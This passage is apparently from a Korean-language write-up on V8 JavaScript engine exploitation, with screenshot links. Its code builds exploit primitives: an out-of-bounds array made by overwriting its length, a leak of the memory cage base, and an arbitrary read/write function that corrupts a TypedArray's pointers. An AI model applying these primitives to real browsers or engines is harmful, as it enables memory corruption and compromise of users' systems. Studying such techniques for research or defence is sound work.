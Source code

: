 ![image](https://github.com/user-attachments/assets/239b9e49-0cc7-4137-aa11-f4f79dbf5b53)

![image](https://github.com/user-attachments/assets/e0c587c6-38d1-445f-bb04-a420edffe7c1)

![image](https://github.com/user-attachments/assets/b716abd8-7fa0-4efb-a7fc-7551b3eb5012)

`TypedArray`의 `external_pointer`를 leak하여 virtual memory cage의 base address를 얻을 수 있다.

```js
// get v8 base
let v8_base = ftoi(oob_arr[22]) & 0xffffffff00000000n;
console.log(`[+] v8_base == ${hex(v8_base)}`);
```

![image](https://github.com/user-attachments/assets/a49b1732-2443-4ce1-b9bb-272cc305c38b)

### Arbitrary address read/write

```js
let oob_arr;
let obj_arr;
let tmp_obj = {};
let typed_arr;

(function layout() {
    oob_arr = [1.1];
    obj_arr = [tmp_obj];
    typed_arr = new BigUint64Array(1);
})();

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${hex(oob_arr.length)}`);

% DebugPrint(oob_arr);
% DebugPrint(typed_arr);
```

![image](https://github.com/user-attachments/assets/42ff67f3-d1c1-4764-9631-f96e02edb8d7)

![image](https://github.com/user-attachments/assets/ab2bd67f-45fe-4e1a-984c-4d0caf4de0c9)

![image](https://github.com/user-attachments/assets/4aa61ae5-5dc1-4247-a2a3-2d5653055b12)

OOB를 이용하여 `base_pointer`와 `external_pointer`를 조작하면 임의의 주소에 접근하여 값을 읽거나 쓸 수 있다.

```js
// arbitrary address read/write
function aarw(addr, value = null) {
    oob_arr[22] = itof(addr); // external_pointer of |typed_arr|
    oob_arr[23] = itof(0n); // base_pointer of |typed_arr|
    if (value == null) {
        // if |value| is null, read 8 bytes from |addr|
        return typed_arr[0];
    } else {
        // if |value| isn't null, write |value| to |addr|
        typed_arr[0] = value;
    }
}
```
